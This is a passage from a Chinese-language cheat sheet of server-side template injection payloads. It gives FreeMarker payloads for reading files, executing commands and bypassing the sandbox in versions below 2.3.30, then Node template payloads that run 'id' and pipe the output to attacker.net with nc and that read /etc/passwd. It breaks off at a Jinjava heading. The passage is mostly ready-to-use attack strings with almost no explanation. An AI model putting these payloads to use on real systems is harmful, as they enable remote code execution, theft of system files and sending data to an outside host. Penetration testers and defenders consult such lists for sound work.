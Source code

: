 ```js
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
将返回的字节转换为ASCII
```

### FreeMarker - 代码执行

```js
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
#{"freemarker.template.utility.Execute"?new()("id")}
[="freemarker.template.utility.Execute"?new()("id")]
```

### FreeMarker - 砂箱绕过

:warning: 仅适用于FreeMarker版本低于2.3.30

```js
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

---

## Codepen

[官方网站](https://codepen.io/)
>

```python
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```

```javascript
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```

---

## Jinjava

[官方网站](https://github.com/HubSpot/jinjava)
> 基于Java的模板引擎，语法基于django模板，适应于渲染jinja模板（至少HubSpot内容中使用的jinja子集）。

### Jinjava - 基本注入
